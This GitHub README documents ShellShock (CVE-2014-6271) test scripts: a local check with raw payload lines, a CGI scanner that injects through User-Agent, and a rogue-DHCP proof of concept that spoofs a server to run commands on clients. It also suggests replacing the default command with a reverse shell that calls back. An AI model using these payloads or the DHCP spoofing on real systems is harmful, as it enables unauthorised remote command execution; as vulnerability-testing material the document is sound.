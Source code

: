 another_shellshock_test
=======================

Some scripts to test for the "ShellShock" vulnerability (CVE-2014-6271).

The codename for this scripts is SHIT (SHellshock Injection Test) *harrharr.

*Please only use this script in environments where you are allowed to. *


## shellshock_local.sh
Test for the two known (by me) version of this vulnerability on the local system:
- env x='() { :;}; echo vulnerable' bash -c echo;
- rm -f echo; env X='() { (a)=>\' bash -c "echo echo vulnerable" 2>/dev/null; cat echo
! THIS SCRIPT WILL REMOVE ANY FILE NAMED echo IN THE CURRENT DIRECTORY. (Sorry for that)

A better script for this purpose is located here: https://github.com/hannob/bashcheck

## shellshock_cgi.py
Test if given cgi script are vulnerable.
USAGE:
 - ./shellshock_cgi.py url1 url2 url3
 - cat somefile | ./shellshock_cgi.py

It runs two tests:
- text_attack: Tries to inject a known text into the result. Succesfull if the cgis STDOUT is returned as response.
- timing attack: Tries to inject a call to sleep.

ATM. only suports GET requests and deliver the exploit in the User_Agent. This could be changed in a short amount of time, though.

EXAMPLE:
```
user@host:~/workspace/security/shellshock$ ./shellshock_cgi.py http://localhost/index.html http://localhost/lol.php
- testing: http://localhost/index.html
Timing attack vulnerable: False
Known text attack vulnerable: False

- testing: http://localhost/lol.php
Timing attack vulnerable: True
Known text attack vulnerable: True
```


## shellshock_dhcp.py
POC / Tester for the shellshock exploit via dchp clients.
In general you could just set up a dhcp server and set the option flag, but this way it would be more difficult to only test specific clients, spoof server and some other stuff.  

I am using the dhcp option 114 (url) as default field to supply the shellshock string.
But there seem to be a bunch of possible fields (See end of README).  
Without any parameter, the script will use the dhcp settings from the first dhcp server answering.
Client REQUESTs will always be ACKed (with inserted exploit).
DISCOVER requests will be answered with data supplied from the real dhcp server, or given as script parameter.  
  
The script will spoof the servers address if the package is send to a specific server.

The default command to execute is "/usr/bin/id > /tmp/test_x". Adjust it, for example. to a bash poor mans shell to call back to a server of yours to collect vulnerable addresses.  

You have to be lucky for the exploit to work, or guarantee that your machine answers faster as the real dhcp server.  
I only tested with dhclient so far, but it should work with every dhcp client invoking (the vulnerable version of) bash scripts and passing env variables.

EXAMPLE:
- Only listen for two given MAC addresses (use the data supplied by the real dhcp server):  
./shellshock_dhcp.pyshellshock_dhcp.py -w 08:00:27:09:84:a9 05:01:27:19:84:e9  

- Use the script without a real dhcp server. OFC you'll have to supply al needed values.  
./shellshock_dhcp.pyshellshock_dhcp.py --static-data --gateway 192.168.100.152 --server-ip 192.168.0.1 --subnet-mask 255.255.255.0 -o 80  
  
  
USAGE:
    usage: dhcp.py [-h] [-i INTERFACE] [-b MAC [MAC ...]] [-w MAC [MAC ...]] [-s]
                   [--ip IP] [--dns-server DNS_SERVER] [--gateway GATEWAY]
                   [--subnet-mask SUBNET_MASK] [--mac MAC] [--server-ip SERVER_IP]
                   [-l LEASE] [-c COMMAND] [-o OPTION]

    optional arguments:
      -h, --help            show this help message and exit
      -i INTERFACE, --interface INTERFACE
                            Use the given interface for sniffing and sending.
      -b MAC [MAC ...], --blacklist MAC [MAC ...]
                            Never react to package from given MAC.
      -w MAC [MAC ...], --whitelist MAC [MAC ...]
                            Only react to packages from given MAC.
      -s, --static-data     If given no dhcp request is done to get the settings.
                            If used --gateway, --dns-server and --subnet-mask
                            should be supplied.
      --ip IP               If given send this IP to the client(s) on DISCOVER.
      --dns-server DNS_SERVER
                            If given send this DNS server IP to the client(s) on
                            DISCOVER and REQUEST.
      --gateway GATEWAY     If given send this gateway IP to the client(s) on
                            DISCOVER and REQUEST.
      --subnet-mask SUBNET_MASK
                            If given send this subnet mask to the client(s) on
                            DISCOVER and REQUEST.
      --mac MAC             Use the given MAC address if not supplied by client.
                            If not given we use the mac from the real server, or a
                            random random one (if --static-data is given)..
      --server-ip SERVER_IP
                            Use the given IP address if not supplied by client. If
                            not given we use the IP from the real server, or a
                            random random one (if --static-data is given)..
      -l LEASE, --lease LEASE
                            Lease time to use.
      -c COMMAND, --command COMMAND
                            The command to execute on the client machine.
      -o OPTION, --option OPTION
                            The option flag to use for the payload.


INSTALL:
You will need python 2.7 and scapy (apt-get install scapy).  
It could work on windows, but to be honest, i didn't test it.  
The script (as every scapy script) need to be run as root.  
   
This script is pretty much in an alpha state, plus it is the first project i did with scapy and i am no network pro after all, so be aware that there could be (and probably will be) bugs.  
In general there is still much to do, and i would bet that there are a bunch of cases where the script will just crash ;)  

Also be aware that this script could lead to a hickup in the dhcp servers cache and also on the dhcp client. (For the last one just remove the lease files and restart your interface)  

Only works with IPv4 addresses ATM.
 
 
 

*Working (at least on my test system) options which allow strings as data and get passed to the dhclient scripts:*
114  
242  
80  
133  
137  
83  
195  
250  
224  
108  
163  
174

